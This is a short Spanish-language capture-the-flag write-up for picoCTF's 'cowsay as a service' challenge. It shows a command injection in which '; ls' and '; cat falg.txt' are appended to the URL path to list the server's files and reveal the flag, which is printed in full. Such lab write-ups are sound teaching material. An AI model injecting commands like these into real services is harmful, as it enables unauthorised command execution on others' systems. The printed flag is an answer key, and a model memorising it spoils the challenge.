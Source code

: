 ## Objetivo
Now presenting [cowsay as a service](https://caas.mars.picoctf.net/)
## Solución
- Al entrar a la pagina te indica que entres al siguiente url:
```bash
https://caas.mars.picoctf.net/cowsay/{message}
```
- Probamos el url con el texto picoCTF y nos muestra la siguiente imagen:
```bash
 _________
< picoCTF >
 ---------
        \   ^__^
         \  (oo)\_______
            (__)\       )\/\
                ||----w |
                ||     ||
```
- Ahora tenemos que hacer una inyección de comandos por lo cual colocamos en ese espacio un texto cualquiera y le colocamos un punto y coma el comando ls, por ejemplo:
```bash
https://caas.mars.picoctf.net/cowsay/picoCTF; ls
```
- Al hacer esto obtenemos la imagen de la vaca y además de la lista de archivos que contiene:
```bash
 _________
< picoCTF >
 ---------
        \   ^__^
         \  (oo)\_______
            (__)\       )\/\
                ||----w |
                ||     ||
Dockerfile
falg.txt
index.js
node_modules
package.json
public
yarn.lock

```
- Y ya con esto solo le aplicamos un cat al archivo de la bandera:
```bash
https://caas.mars.picoctf.net/cowsay/picoCTF;%20cat%20falg.txt

 _________
< picoCTF >
 ---------
        \   ^__^
         \  (oo)\_______
            (__)\       )\/\
                ||----w |
                ||     ||
picoCTF{moooooooooooooooooooooooooooooooooooooooooooooooooooooooooooo0o}
```

## Notas Adicionales
## Referencias